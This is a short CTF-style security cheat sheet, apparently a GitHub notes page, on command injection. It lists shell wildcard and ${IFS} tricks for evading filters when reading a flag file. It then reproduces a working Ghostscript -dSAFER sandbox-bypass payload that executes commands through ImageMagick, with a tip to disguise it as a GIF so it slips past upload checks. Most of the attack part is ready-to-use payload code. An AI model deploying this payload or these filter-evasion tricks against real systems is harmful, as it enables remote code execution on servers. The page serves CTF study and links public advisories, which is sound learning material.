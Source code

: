# Command injection
In CTF, we can directly cat flag with cmd injection. In real world, we can directly make a reverse shell with it.  
First, we can take a look at the power of wildcard...  
```php
// match one character
cat fla?
cat ./???sword

// match multiple character
cat f*

// bypass the limit on space character
cat${IFS}flag
cat$IFSflag
```

## ghostscript RCE
The sandbox `-dSAFER` of ghostscript has been bypassed! The sandbox is controlled by the `LockSafetyParams` param in the process, then `restore` of gs can overwrite the the param. Many application based on ghostscript would be influenced, such as the most famous application imageMagick. Following is the payload of POC.jpg:  
```php
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%id) currentdevice putdeviceprops
```  
Here, you can also forge it as gif with `gif89` header to deceive the file upload system.  
❗️ Attention: The timing to trigger the RCE is important.  
[ref: mail of Tavis](http://openwall.com/lists/oss-security/2018/08/21/2)  
[ref: security team of imageMagick](https://imagetragick.com/)  
[ref: PostScript语言安全研究](https://paper.seebug.org/68/#0x03-ghostscriptimagemagick)  
[ref: ImageMagick-CVE-2016-3714](http://www.zerokeeper.com/vul-analysis/ImageMagick-CVE-2016-3714.html)  
[ref: 安全客ghostscript命令执行漏洞预警](https://www.anquanke.com/post/id/157513)

